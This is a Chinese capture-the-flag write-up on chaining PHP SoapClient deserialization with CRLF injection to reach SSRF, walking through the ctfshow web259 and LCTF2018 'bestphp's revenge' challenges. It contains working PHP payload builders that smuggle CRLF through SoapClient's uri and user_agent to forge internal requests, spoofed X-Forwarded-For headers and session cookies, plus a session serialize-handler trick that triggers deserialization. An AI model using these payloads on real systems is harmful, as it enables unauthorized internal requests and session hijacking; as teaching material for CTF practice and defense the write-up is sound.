 ## SoapClient与反序列化

还可以打SSRF  **DASCTF2022十月EasyLove**

## SoapClient与CRLF组合拳实现

> CRLF是”回车 + 换行”（\r\n）的简称。在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLF Injection又叫HTTP Response Splitting，简称HRS。

[Y4](file://D:/Typora/note/CTF/web/web259--writeUp.pdf)    Y4✌讲的很详细了，我就主要讲题目方面的了

### 前言

关于什么是**XFF**相必也不需要多说，这里补充一个新Trick

维护代理服务器和原始访问者 IP 地址。如果发送到 Cloudflare 的请求中不含现有的 **X-Forwarded**

**For** 标头，**X-Forwarded-For** 将具有与 **CF-Connecting-IP** 标头相同的值：

> 示例：X-Forwarded-For:203.0.113.1

如果发送到 Cloudflare 的请求中已存在 **X-Forwarded-For** 标头，则 Cloudflare 会将 HTTP 代理的 IP

地址附加到这个标头：

>  示例：X-Forwarded-For:203.0.113.1,198.51.100.101,198.51.100.102

### ctfshow_web259

**flag.php**

```php
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

**index.php**

```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

由于本题是**Cloudflare**代理，所以在经过两次**array_pop**后得到的始终是固定的服务器IP，此时无论我们如何对XFF头进行修改都无济于事

因此需要实现**SoapClient**与**CRLF**的组合拳来为我们实现**SSRF**

### SoapClient

照着Y4✌做一下

在**vps**上开启监听，然后执行下面php代码

```php
<?php
$a = new SoapClient(null,array('uri'=>"bbb",'location'=>'http://1.15.107.150:3296'));
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```

![image-20221222155552006](SoapClient与反序列化.assets/image-20221222155552006.png)

可以看到，`SOAPAction`这里是我们可控的参数

尝试构造恶意的参数

```php
<?php
$a = new SoapClient(null,array('uri'=>"bbb\r\n\r\ntest\r\n\r\n",'location'=>'http://1.15.107.150:3296'));#必须是双引号哦，单引号会被当成字符
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```

成功

![image-20221222160145610](SoapClient与反序列化.assets/image-20221222160145610.png)

这样我们就可以伪造数据包

![image-20221222160319104](SoapClient与反序列化.assets/image-20221222160319104.png)

但是`user_agent`同样可以`CRLF`，控制`Content-Type`的值

```php
<?php
$target = 'http://1.15.107.150:3296';
$post_string = 'data=something';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'xlccccc^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo $aaa;

$c = unserialize($aaa);
$c->not_exists_function();
?>
```

![image-20221222161552090](SoapClient与反序列化.assets/image-20221222161552090.png)

伪造成功

### 回到本题

因为有两个`array_pop`，所以要填两个`127.0.0.1`给它**pop**，剩下的那一个就是本地访问产生的`127.0.0.1`

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'xlccccc^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```

## 题目

### [Lctf2018 bestphp's revenge]

**index.php**

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
```

**flag.php**

```
only localhost can get flag!session_start(); echo 'only localhost can get flag!'; $flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ $_SESSION['flag'] = $flag; } only localhost can get flag!
```

很明显就是要**ssrf**来获取flag了

`call_user_func($_GET['f'], $_POST);`最前面用了一个函数来对数组进行处理，能利用的函数不多

本题用到的 `extract` 和`session_start` 

先利用`session_start`将php session反序列化的方法改变，从而造成php反序列化

```php
session_start(['serialize_handler'=>'php_serialize'])
```

然后就是本题的一大关键，我们可以控制`$_SESSION`的值，也就是说程序运行完，我们`$_SESSION`中的**value**是会保存到`sess_PHPSESSID`中的，而当我们以该**PHPSESSID**再次访问时，是会对里面的内容**反序列化**的

所以我们可以先构造一个打**CRLF**的**SoapClient**对象，然后下次重新访问的时候利用`call_user_func($b, $a);`来调用它的`__call`方法从而打**SSRF**

首先构造**SoapClient**对象

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'xlccccc';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=xlccccc'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'xlccccc^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```

![](https://raw.githubusercontent.com/xlccccc/Image/master/hexoblog/202212301525756.png)

这一步构造了一个**SoapClient**对象并存在了本地的`/tmp/sess_ml5te253j49m4es0r3jimm8fu4`中

![](https://raw.githubusercontent.com/xlccccc/Image/master/hexoblog/202212301528469.png)

这一步对刚才上传的**SoapClient**对象进行反序列化，得到了`object(SoapClient)`

然后执行`call_user_func(array('SoapClient','welcome_to_the_lctf2018'))`，因为找不到`welcome_to_the_lctf2018`方法，所以调用`__call`方法从而触发**SSRF和CRLF**

然后`http://127.0.0.1/flag.php`的结果就存在了你伪造的**PHPSESSID**中，即`xlccccc`，这时候以该**PHPSESSID**访问，由于他会打印出`$_SESSION`，你就可以看到**flag**了

![](https://raw.githubusercontent.com/xlccccc/Image/master/hexoblog/202212301532381.png)

